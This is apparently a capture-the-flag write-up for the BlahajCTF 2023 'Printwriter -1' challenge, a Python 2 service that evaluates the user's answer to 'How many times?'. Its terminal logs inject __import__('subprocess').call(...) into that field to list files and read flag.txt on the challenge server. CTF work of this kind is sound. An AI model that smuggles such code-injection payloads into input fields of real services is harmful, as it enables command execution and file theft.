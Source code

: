 ```yaml
---
title: Printwriter -1
date: 2023-12-05
tags:
- misc
categories: BlahajCTF 2023
---
```


> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):


{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/blahaj<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi</DIV>
{% endccb %}

So we can get shell simply with:
```py
__import__("subprocess").call()
```

{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/nightmare/Stack_Buffer_Overflow<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["ls","-l"])</span>
total 8
<span class="code-highlight">-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt</span>
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["cat","flag.txt"])</span>
<span class="diff-highlight-add">blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}</span></DIV>
{% endccb %}
